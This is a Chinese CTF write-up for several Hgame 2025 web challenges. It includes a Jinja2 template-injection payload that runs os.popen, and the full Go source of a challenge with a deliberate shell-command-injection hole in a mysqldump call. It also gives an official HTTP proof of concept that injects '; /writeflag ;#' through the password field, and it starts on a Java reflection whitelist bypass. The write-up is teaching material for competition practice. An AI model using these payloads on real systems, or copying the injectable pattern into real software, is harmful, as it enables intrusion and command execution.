



payload

```
message={{lipsum.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```



然后换一下rce命令再竞争一下就可以了



# Level 25 双面人派对

还需要逆向分析，压根不会，可以看看infernity师傅的wp

[Hgame2025 week1 Web WP](https://infernity.top/2025/02/03/Hgame-2025-week1/#Level-25-%E5%8F%8C%E9%9D%A2%E4%BA%BA%E6%B4%BE%E5%AF%B9)

# **Level 21096 HoneyPot**

## #非预期命令执行



先看看源码

```go
package main

import (
	"database/sql"
	"encoding/json"
	"fmt"
	"github.com/gin-contrib/cors"
	"github.com/gin-gonic/gin"
	_ "github.com/go-sql-driver/mysql"
	"io/ioutil"
	"log"
	"net/http"
	"os"
	"os/exec"
	"regexp"
	"strconv"
	"strings"
	"sync"
)

type DBConfig struct {
	Host     string `json:"host" binding:"required"`
	Port     string `json:"port" binding:"required"`
	Username string `json:"username" binding:"required"`
	Password string `json:"password" binding:"required"`
}

type ImportConfig struct {
	RemoteHost     string `json:"remote_host" binding:"required"`
	RemotePort     string `json:"remote_port" binding:"required"`
	RemoteUsername string `json:"remote_username" binding:"required"`
	RemotePassword string `json:"remote_password" binding:"required"`
	RemoteDatabase string `json:"remote_database" binding:"required"`
	LocalDatabase  string `json:"local_database" binding:"required"`
}

type ConnectionManager struct {
	mu   sync.Mutex
	db   *sql.DB
	conf *DBConfig
}

var manager = &ConnectionManager{}
var localConfig DBConfig

func loadLocalConfig() error {
	configFile, err := os.Open("config.json")
	if err != nil {
		return fmt.Errorf("error opening config file: %v", err)
	}
	defer configFile.Close()

	decoder := json.NewDecoder(configFile)
	if err := decoder.Decode(&localConfig); err != nil {
		return fmt.Errorf("error decoding config file: %v", err)
	}

	return nil
}
func main() {
	if err := loadLocalConfig(); err != nil {
		log.Fatalf("Failed to load local configuration: %v", err)
	}
	r := gin.Default()

	config := cors.DefaultConfig()
	config.AllowAllOrigins = true
	config.AllowHeaders = []string{"Origin", "Content-Length", "Content-Type"}
	r.Use(cors.New(config))
	r.LoadHTMLGlob("index.html")
	r.GET("/", func(c *gin.Context) {
		c.HTML(http.StatusOK, "index.html", nil)
	})
	r.GET("/flag", func(c *gin.Context) {
		data, err := ioutil.ReadFile("/flag")
		if err != nil {
			c.JSON(http.StatusInternalServerError, gin.H{"error": "Failed to read /flag file"})
			return
		}
		c.String(http.StatusOK, string(data))
	})
	api := r.Group("/api")
	{
		api.GET("/databases", getDatabases)
		api.GET("/tables", getTables)
		api.GET("/data", getTableData)
		api.GET("/database", createDatabase)
		api.GET("/search", searchTableData)
		api.POST("/test-connection", testConnection)
		api.POST("/test-import-connection", testImportConnection)
		api.POST("/connect", connect)
		api.POST("/import", ImportData)

	}

	log.Printf("Server starting on http://localhost:9090")
	r.Run(":9090")
}

func testConnection(c *gin.Context) {
	dsn := buildDSN(localConfig)
	db, err := sql.Open("mysql", dsn)
	if err != nil {
		c.JSON(http.StatusInternalServerError, gin.H{
			"success": false,
			"message": "Failed to open connection: " + err.Error(),
		})
		return
	}
	defer db.Close()

	if err := db.Ping(); err != nil {
		c.JSON(http.StatusInternalServerError, gin.H{
			"success": false,
			"message": "Failed to connect: " + err.Error(),
		})
		return
	}

	c.JSON(http.StatusOK, gin.H{
		"success": true,
		"message": "Connection successful",
	})
}

func testImportConnection(c *gin.Context) {
	var config ImportConfig
	if err := c.ShouldBindJSON(&config); err != nil {
		c.JSON(http.StatusBadRequest, gin.H{
			"success": false,
			"message": "Invalid request body: " + err.Error(),
		})
		return
	}

	if err := validateImportConfig(config); err != nil {
		c.JSON(http.StatusBadRequest, gin.H{
			"success": false,
			"message": "Invalid input: " + err.Error(),
		})
		return
	}

	dsn := fmt.Sprintf("%s:%s@tcp(%s:%s)/%s",
		sanitizeInput(config.RemoteUsername),
		config.RemotePassword,
		sanitizeInput(config.RemoteHost),
		config.RemotePort,
		sanitizeInput(config.RemoteDatabase),
	)

	db, err := sql.Open("mysql", dsn)
	if err != nil {
		c.JSON(http.StatusInternalServerError, gin.H{
			"success": false,
			"message": "Failed to open connection: " + err.Error(),
		})
		return
	}
	defer db.Close()

	if err := db.Ping(); err != nil {
		c.JSON(http.StatusInternalServerError, gin.H{
			"success": false,
			"message": "Failed to connect: " + err.Error(),
		})
		return
	}

	var dbExists bool
	err = db.QueryRow("SELECT COUNT(*) FROM INFORMATION_SCHEMA.SCHEMATA WHERE SCHEMA_NAME = ?",
		config.RemoteDatabase).Scan(&dbExists)
	if err != nil {
		c.JSON(http.StatusInternalServerError, gin.H{
			"success": false,
			"message": "Failed to verify database: " + err.Error(),
		})
		return
	}

	if !dbExists {
		c.JSON(http.StatusBadRequest, gin.H{
			"success": false,
			"message": "Remote database does not exist",
		})
		return
	}

	c.JSON(http.StatusOK, gin.H{
		"success": true,
		"message": "Connection successful",
	})
}

func connect(c *gin.Context) {
	var config DBConfig
	manager.mu.Lock()
	defer manager.mu.Unlock()

	if manager.db != nil {
		manager.db.Close()
	}
	dsn := buildDSN(localConfig)
	db, _ := sql.Open("mysql", dsn)

	if err := db.Ping(); err != nil {
		db.Close()
		return
	}

	manager.db = db
	manager.conf = &config
	c.JSON(http.StatusBadRequest, gin.H{
		"success": true,
		"message": "Connected To Database",
	})
	return
}

func getDatabases(c *gin.Context) {
	manager.mu.Lock()
	defer manager.mu.Unlock()

	if manager.db == nil {
		c.JSON(http.StatusBadRequest, gin.H{
			"success": false,
			"message": "No active connection",
		})
		return
	}

	rows, err := manager.db.Query("SHOW DATABASES")
	if err != nil {
		c.JSON(http.StatusInternalServerError, gin.H{
			"success": false,
			"message": "Failed to fetch databases: " + err.Error(),
		})
		return
	}
	defer rows.Close()

	var databases []string
	for rows.Next() {
		var dbName string
		if err := rows.Scan(&dbName); err != nil {
			c.JSON(http.StatusInternalServerError, gin.H{
				"success": false,
				"message": "Failed to scan database name: " + err.Error(),
			})
			return
		}
		if dbName != "information_schema" && dbName != "mysql" &&
			dbName != "performance_schema" && dbName != "sys" {
			databases = append(databases, dbName)
		}
	}

	c.JSON(http.StatusOK, gin.H{
		"success": true,
		"data":    databases,
	})
}

func getTables(c *gin.Context) {
	dbName := c.Query("database")
	if dbName == "" {
		c.JSON(http.StatusBadRequest, gin.H{
			"success": false,
			"message": "Database name is required",
		})
		return
	}

	manager.mu.Lock()
	defer manager.mu.Unlock()

	if manager.db == nil {
		c.JSON(http.StatusBadRequest, gin.H{
			"success": false,
			"message": "No active connection",
		})
		return
	}

	if _, err := manager.db.Exec("USE `" + dbName + "`"); err != nil {
		c.JSON(http.StatusInternalServerError, gin.H{
			"success": false,
			"message": "Failed to switch database: " + err.Error(),
		})
		return
	}

	rows, err := manager.db.Query("SHOW TABLES")
	if err != nil {
		c.JSON(http.StatusInternalServerError, gin.H{
			"success": false,
			"message": "Failed to fetch tables: " + err.Error(),
		})
		return
	}
	defer rows.Close()

	var tables []string
	for rows.Next() {
		var tableName string
		if err := rows.Scan(&tableName); err != nil {
			c.JSON(http.StatusInternalServerError, gin.H{
				"success": false,
				"message": "Failed to scan table name: " + err.Error(),
			})
			return
		}
		tables = append(tables, tableName)
	}

	c.JSON(http.StatusOK, gin.H{
		"success": true,
		"data":    tables,
	})
}

func getTableData(c *gin.Context) {
	dbName := c.Query("database")
	tableName := c.Query("table")
	page := c.DefaultQuery("page", "0")
	size := c.DefaultQuery("size", "0")

	if dbName == "" || tableName == "" {
		c.JSON(http.StatusBadRequest, gin.H{
			"success": false,
			"message": "Database and table names are required",
		})
		return
	}

	manager.mu.Lock()
	defer manager.mu.Unlock()

	if manager.db == nil {
		c.JSON(http.StatusBadRequest, gin.H{
			"success": false,
			"message": "No active connection",
		})
		return
	}

	if _, err := manager.db.Exec(fmt.Sprintf("USE `%s`", dbName)); err != nil {
		c.JSON(http.StatusInternalServerError, gin.H{
			"success": false,
			"message": "Failed to switch database: " + err.Error(),
		})
		return
	}

	columns, err := getTableColumns(manager.db, tableName)
	if err != nil {
		c.JSON(http.StatusInternalServerError, gin.H{
			"success": false,
			"message": "Failed to get table structure: " + err.Error(),
		})
		return
	}

	var total int
	sumQuery := fmt.Sprintf("SELECT COUNT(*) FROM `%s`.`%s`", dbName, tableName)
	if err := manager.db.QueryRow(sumQuery).Scan(&total); err != nil {
		c.JSON(http.StatusInternalServerError, gin.H{
			"success": false,
			"message": "Failed to get total count: " + err.Error(),
		})
		return
	}

	var query string
	if page != "0" && size != "0" {
		pageNum, err1 := strconv.Atoi(page)
		pageSize, err2 := strconv.Atoi(size)
		if err1 != nil || err2 != nil || pageNum < 1 || pageSize < 1 {
			c.JSON(http.StatusBadRequest, gin.H{
				"success": false,
				"message": "Invalid page or size parameter",
			})
			return
		}

		offset := (pageNum - 1) * pageSize
		query = fmt.Sprintf("SELECT * FROM `%s`.`%s` LIMIT %d OFFSET %d",
			dbName, tableName, pageSize, offset)
	} else {
		query = fmt.Sprintf("SELECT * FROM `%s`.`%s` LIMIT 10", dbName, tableName)
	}

	rows, err := manager.db.Query(query)
	if err != nil {
		c.JSON(http.StatusInternalServerError, gin.H{
			"success": false,
			"message": "Failed to fetch data: " + err.Error(),
		})
		return
	}
	defer rows.Close()

	var results []map[string]interface{}
	for rows.Next() {
		values := make([]interface{}, len(columns))
		valuePtrs := make([]interface{}, len(columns))
		for i := range columns {
			valuePtrs[i] = &values[i]
		}

		if err := rows.Scan(valuePtrs...); err != nil {
			c.JSON(http.StatusInternalServerError, gin.H{
				"success": false,
				"message": "Failed to scan row: " + err.Error(),
			})
			return
		}

		row := make(map[string]interface{})
		for i, col := range columns {
			val := values[i]
			if b, ok := val.([]byte); ok {
				row[col] = string(b)
			} else {
				row[col] = val
			}
		}
		results = append(results, row)
	}

	if err = rows.Err(); err != nil {
		c.JSON(http.StatusInternalServerError, gin.H{
			"success": false,
			"message": "Error iterating rows: " + err.Error(),
		})
		return
	}

	c.JSON(http.StatusOK, gin.H{
		"success": true,
		"data": gin.H{
			"records": results,
			"total":   total,
		},
	})
}

func getTableColumns(db *sql.DB, tableName string) ([]string, error) {
	rows, err := db.Query("SHOW COLUMNS FROM `" + tableName + "`")
	if err != nil {
		return nil, err
	}
	defer rows.Close()

	var columns []string
	for rows.Next() {
		var field, typ, null, key, default_value, extra sql.NullString
		if err := rows.Scan(&field, &typ, &null, &key, &default_value, &extra); err != nil {
			return nil, err
		}
		columns = append(columns, field.String)
	}

	if err = rows.Err(); err != nil {
		return nil, err
	}

	return columns, nil
}
func createDatabase(c *gin.Context) {
	databaseName := c.Query("db")
	query := fmt.Sprintf("CREATE DATABASE IF NOT EXISTS `%s`", databaseName)
	_, err := manager.db.Exec(query)
	if err != nil {
		c.JSON(http.StatusOK, gin.H{"success": "false", "message": err})
		return
	}
	c.JSON(http.StatusOK, gin.H{"success": "true", "message": "创建数据库" + databaseName + "成功"})
	return
}
func createdb(dbname string) error {
	query := fmt.Sprintf("CREATE DATABASE IF NOT EXISTS `%s`", dbname)
	_, err := manager.db.Exec(query)
	return err
}

func buildDSN(config DBConfig) string {
	return config.Username + ":" + config.Password + "@tcp(" + config.Host + ":" + config.Port + ")/"
}
func ImportData(c *gin.Context) {
	var config ImportConfig
	if err := c.ShouldBindJSON(&config); err != nil {
		c.JSON(http.StatusBadRequest, gin.H{
			"success": false,
			"message": "Invalid request body: " + err.Error(),
		})
		return
	}
	if err := validateImportConfig(config); err != nil {
		c.JSON(http.StatusBadRequest, gin.H{
			"success": false,
			"message": "Invalid input: " + err.Error(),
		})
		return
	}

	config.RemoteHost = sanitizeInput(config.RemoteHost)
	config.RemoteUsername = sanitizeInput(config.RemoteUsername)
	config.RemoteDatabase = sanitizeInput(config.RemoteDatabase)
	config.LocalDatabase = sanitizeInput(config.LocalDatabase)
	if manager.db == nil {
		dsn := buildDSN(localConfig)
		db, err := sql.Open("mysql", dsn)
		if err != nil {
			c.JSON(http.StatusInternalServerError, gin.H{
				"success": false,
				"message": "Failed to connect to local database: " + err.Error(),
			})
			return
		}

		if err := db.Ping(); err != nil {
			db.Close()
			c.JSON(http.StatusInternalServerError, gin.H{
				"success": false,
				"message": "Failed to ping local database: " + err.Error(),
			})
			return
		}

		manager.db = db
	}
	if err := createdb(config.LocalDatabase); err != nil {
		c.JSON(http.StatusInternalServerError, gin.H{
			"success": false,
			"message": "Failed to create local database: " + err.Error(),
		})
		return
	}
	//Never able to inject shell commands,Hackers can't use this,HaHa
	command := fmt.Sprintf("/usr/local/bin/mysqldump -h %s -u %s -p%s %s |/usr/local/bin/mysql -h 127.0.0.1 -u %s -p%s %s",
		config.RemoteHost,
		config.RemoteUsername,
		config.RemotePassword,
		config.RemoteDatabase,
		localConfig.Username,
		localConfig.Password,
		config.LocalDatabase,
	)
	fmt.Println(command)
	cmd := exec.Command("sh", "-c", command)
	if err := cmd.Run(); err != nil {
		c.JSON(http.StatusInternalServerError, gin.H{
			"success": false,
			"message": "Failed to import data: " + err.Error(),
		})
		return
	}

	c.JSON(http.StatusOK, gin.H{
		"success": true,
		"message": "Data imported successfully",
	})
}
func sanitizeInput(input string) string {
	reg := regexp.MustCompile(`[;&|><\(\)\{\}\[\]\\` + "`" + `]`)
	return reg.ReplaceAllString(input, "")
}
func searchTableData(c *gin.Context) {
	dbName := c.Query("database")
	tableName := c.Query("table")
	keyword := c.Query("keyword")
	page := c.DefaultQuery("page", "1")
	size := c.DefaultQuery("size", "10")

	if dbName == "" || tableName == "" {
		c.JSON(http.StatusBadRequest, gin.H{
			"success": false,
			"message": "Database and table names are required",
		})
		return
	}

	manager.mu.Lock()
	defer manager.mu.Unlock()

	if manager.db == nil {
		c.JSON(http.StatusBadRequest, gin.H{
			"success": false,
			"message": "No active connection",
		})
		return
	}

	if _, err := manager.db.Exec(fmt.Sprintf("USE `%s`", dbName)); err != nil {
		c.JSON(http.StatusInternalServerError, gin.H{
			"success": false,
			"message": "Failed to switch database: " + err.Error(),
		})
		return
	}

	columns, err := getTableColumns(manager.db, tableName)
	if err != nil {
		c.JSON(http.StatusInternalServerError, gin.H{
			"success": false,
			"message": "Failed to get table structure: " + err.Error(),
		})
		return
	}

	var whereClause string
	var args []interface{}
	if keyword != "" {
		var conditions []string
		for _, col := range columns {
			conditions = append(conditions, fmt.Sprintf("`%s` LIKE ?", col))
			args = append(args, "%"+keyword+"%")
		}
		whereClause = " WHERE " + strings.Join(conditions, " OR ")
	}

	var total int
	countQuery := fmt.Sprintf("SELECT COUNT(*) FROM `%s`%s", tableName, whereClause)
	if err := manager.db.QueryRow(countQuery, args...).Scan(&total); err != nil {
		c.JSON(http.StatusInternalServerError, gin.H{
			"success": false,
			"message": "Failed to get total count: " + err.Error(),
		})
		return
	}

	pageNum, _ := strconv.Atoi(page)
	pageSize, _ := strconv.Atoi(size)
	offset := (pageNum - 1) * pageSize

	query := fmt.Sprintf("SELECT * FROM `%s`%s LIMIT ? OFFSET ?", tableName, whereClause)
	args = append(args, pageSize, offset)

	rows, err := manager.db.Query(query, args...)
	if err != nil {
		c.JSON(http.StatusInternalServerError, gin.H{
			"success": false,
			"message": "Failed to fetch data: " + err.Error(),
		})
		return
	}
	defer rows.Close()

	var results []map[string]interface{}
	for rows.Next() {
		values := make([]interface{}, len(columns))
		valuePtrs := make([]interface{}, len(columns))
		for i := range columns {
			valuePtrs[i] = &values[i]
		}

		if err := rows.Scan(valuePtrs...); err != nil {
			c.JSON(http.StatusInternalServerError, gin.H{
				"success": false,
				"message": "Failed to scan row: " + err.Error(),
			})
			return
		}

		row := make(map[string]interface{})
		for i, col := range columns {
			val := values[i]
			if b, ok := val.([]byte); ok {
				row[col] = string(b)
			} else {
				row[col] = val
			}
		}
		results = append(results, row)
	}

	c.JSON(http.StatusOK, gin.H{
		"success": true,
		"data": gin.H{
			"records": results,
			"total":   total,
		},
	})
}
func validateImportConfig(config ImportConfig) error {
	if config.RemoteHost == "" ||
		config.RemoteUsername == "" ||
		config.RemoteDatabase == "" ||
		config.LocalDatabase == "" {
		return fmt.Errorf("missing required fields")
	}

	if match, _ := regexp.MatchString(`^[a-zA-Z0-9\.\-]+$`, config.RemoteHost); !match {
		return fmt.Errorf("invalid remote host")
	}

	if match, _ := regexp.MatchString(`^[a-zA-Z0-9_]+$`, config.RemoteUsername); !match {
		return fmt.Errorf("invalid remote username")
	}

	if match, _ := regexp.MatchString(`^[a-zA-Z0-9_]+$`, config.RemoteDatabase); !match {
		return fmt.Errorf("invalid remote database name")
	}

	if match, _ := regexp.MatchString(`^[a-zA-Z0-9_]+$`, config.LocalDatabase); !match {
		return fmt.Errorf("invalid local database name")
	}

	return nil
}

```

关注到ImportData函数中有命令执行并且是将传⼊的参数拼接进⼊字符串作为shell命令执行，虽然validateImportConfig函数中对很多参数都进行了过滤，但是对RemotePassword并没有进行过滤

所以poc如下(这道题没得复现环境，所以直接放官方的poc了)

```http
POST /api/import HTTP/1.1
Host: node1.hgame.vidar.club:30700
User-Agent: Apifox/1.0.0 (https://apifox.com)
Content-Type: application/json
Accept: */*
Host: node1.hgame.vidar.club:30700
Connection: keep-alive

{
"remote_host": "8.154.18.17",
"remote_port": "3306",
"remote_username": "root",
"remote_password": "; /writeflag ;#",
"remote_database": "mydb",
"local_database": "aaa"
}
```

命令注⼊完成之后，访问 /flag 即可获得flag

# **Level 21096 HoneyPot_Revenge**

## #CVE-2024-21096

修复了上面的一个非预期解，对RemotePassword也进行了过滤



这道题是一个ndayCVE-2024-21096，一个未授权读取

https://nvd.nist.gov/vuln/detail/cve-2024-21096

先放着吧，暂时还没看懂

# **Level 60 SignInJava**

## #java反射白名单绕过

先看控制器代码

```java
package icu.Liki4.signin.controller;

import ch.qos.logback.classic.encoder.JsonEncoder;
import cn.hutool.core.util.StrUtil;
import com.alibaba.fastjson2.JSON;
import icu.Liki4.signin.base.BaseResponse;
import icu.Liki4.signin.util.InvokeUtils;
import jakarta.servlet.http.HttpServletRequest;
import java.util.Map;
import java.util.Objects;
import org.apache.commons.io.IOUtils;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RequestMethod;
import org.springframework.web.bind.annotation.ResponseBody;

@RequestMapping({"/api"})
@Controller
/* loaded from: SigninJava.jar:BOOT-INF/classes/icu/Liki4/signin/controller/APIGatewayController.class */
public class APIGatewayController {
    @RequestMapping(value = {"/gateway"}, method = {RequestMethod.POST})
    @ResponseBody
    public BaseResponse doPost(HttpServletRequest request) throws Exception {
        try {
            String body = IOUtils.toString(request.getReader());
            Map<String, Object> map = (Map) JSON.parseObject(body, Map.class);
            String beanName = (String) map.get("beanName");
            String methodName = (String) map.get(JsonEncoder.METHOD_NAME_ATTR_NAME);
            Map<String, Object> params = (Map) map.get("params");
            if (StrUtil.containsAnyIgnoreCase(beanName, "flag")) {
                return new BaseResponse(403, "flagTestService offline", null);
            }
            Object result = InvokeUtils.invokeBeanMethod(beanName, methodName, params);
            return new BaseResponse(200, null, result);
        } catch (Exception e) {
            return new BaseResponse(500, ((Throwable) Objects.requireNonNullElse(e.getCause(), e)).getMessage(), null);
        }
    }
}
```

读取请求中的请求体字符串并进行json解析成Map，然后获取bean名和METHOD_NAME_ATTR_NAME值以及params参数，这个值实际上就是methodName方法名



并且检测bean类名不能是flag，随后反射调用方法，跟进看看invokeBeanMethod

```java
public static Object invokeBeanMethod(String beanName, String methodName, Map<String, Object> params) throws Exception {
    Object beanObject = SpringContextHolder.getBean(beanName);
    Method beanMethod = (Method) Arrays.stream(beanObject.getClass().getMethods()).filter(method -> {
        return method.getName().equals(methodName);
    }).findFirst().orElse(null);
    if (beanMethod.getParameterCount() == 0) {
        return beanMethod.invoke(beanObject, new Object[0]);
    }
    String[] parameterTypes = new String[beanMethod.getParameterCount()];
    Object[] parameterArgs = new Object[beanMethod.getParameterCount()];
    for (int i = 0; i < beanMethod.getParameters().length; i++) {
        Class<?> parameterType = beanMethod.getParameterTypes()[i];
        String parameterName = beanMethod.getParameters()[i].getName();
        parameterTypes[i] = parameterType.getName();
        if (!parameterType.isPrimitive() && !Date.class.equals(parameterType) && !Long.class.equals(parameterType) && !Integer.class.equals(parameterType) && !Boolean.class.equals(parameterType) && !Double.class.equals(parameterType) && !Float.class.equals(parameterType) && !Short.class.equals(parameterType) && !Byte.class.equals(parameterType) && !Character.class.equals(parameterType) && !String.class.equals(parameterType) && !List.class.equals(parameterType) && !Set.class.equals(parameterType) && !Map.class.equals(parameterType)) {
            if (params.containsKey(parameterName)) {
                parameterArgs[i] = JSON.parseObject(JSON.toJSONString(params.get(parameterName)), (Class) parameterType, autoTypeFilter, new JSONReader.Feature[0]);
            } else {
                try {
                    parameterArgs[i] = JSON.parseObject(JSON.toJSONString(params), (Class) parameterType, autoTypeFilter, new JSONReader.Feature[0]);
                } catch (JSONException e) {
                    for (Map.Entry<String, Object> entry : params.entrySet()) {
                        Object value = entry.getValue();
                        if ((value instanceof String) && ((String) value).contains("\"")) {
                            params.put(entry.getKey(), JSON.parse((String) value));
                        }
                    }
                    parameterArgs[i] = JSON.parseObject(JSON.toJSONString(params), (Class) parameterType, autoTypeFilter, new JSONReader.Feature[0]);
                }
            }
        } else {
            parameterArgs[i] = params.getOrDefault(parameterName, null);
        }
    }
    return beanMethod.invoke(beanObject, parameterArgs);
}
```

一个正常的无参有参函数的反射调用器

但是这里写了一个过滤器

```java
    @Lazy
    private static final Filter autoTypeFilter = JSONReader.autoTypeFilter((String[]) ((Set) Arrays.stream(SpringContextHolder.getApplicationContext().getBeanDefinitionNames()).map(name -> {
        int secondDotIndex = name.indexOf(46, name.indexOf(46) + 1);
        if (secondDotIndex != -1) {
            return name.substring(0, secondDotIndex + 1);
        }
        return null;
    }).filter((v0) -> {
        return Objects.nonNull(v0);
    }).collect(Collectors.toSet())).toArray(new String[0]));
```

设置了一个白名单，并且在JSON反序列化参数内容并获取方法参数的时候用到了这个过滤器

